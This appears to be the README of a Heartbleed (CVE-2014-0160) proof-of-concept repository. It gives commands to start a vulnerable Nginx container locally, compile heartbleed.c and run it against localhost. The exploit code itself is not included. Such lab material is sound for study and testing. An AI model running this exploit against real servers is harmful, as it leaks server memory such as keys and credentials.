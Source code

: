 # heartbleed
CVE-2014-0160 OpenSSL Heartbleed Proof of Concept

Download and execute the Docker container (Vulnerable Nginx server)
```
docker run -p 4443:443 -it --rm --name hb heartbleed:1.0
```
Compile Heartbleed attack
```
gcc heartbleed.c -o heartbleed
```
Execute it with Nginx server as target
```
./heartbleed 127.0.0.1 4443
```
